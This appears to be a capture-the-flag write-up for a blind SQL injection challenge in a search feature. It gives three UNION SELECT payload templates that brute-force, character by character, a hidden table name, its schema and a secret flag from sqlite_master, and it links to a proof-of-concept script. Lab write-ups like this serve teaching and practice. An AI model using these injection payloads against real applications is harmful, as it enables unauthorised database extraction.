 # Challenge `Sometimes we are just temporarily blind` writeup

- **Vulnerability:** SQL injection
- **Where:** In search
- **Impact:** Allows execution of arbitrary query. Result set length enables validation of query result.

## Steps to reproduce

1. Extract information about query by looking at "Found x" result.
1. Use provided script (bruteforce binary injection, iterates through character options and validates query with previously mentioned method) to extract name of an unknown table (different from previous challenge).
   ```
   null' UNION Select name, tbl_name, sql from sqlite_master where substr(tbl_name,1,%d) = '%s' --
   ```
1. After having table name, do the same but for sql schema to get column names:

   ```
   %dnull' UNION Select name, tbl_name, sql from sqlite_master where tbl_name='super_s_sof_secrets' AND sql LIKE '%s%%' --

   ```

1. Now that we know the table and column names, we do the same to exfiltrate the flag from this table:

```
null' UNION Select id, null, secret from super_s_sof_secrets where substr(secret,1,%d) = '%s' --
```

[POC](sometimes_we_are_just_temporarily_blind.py)
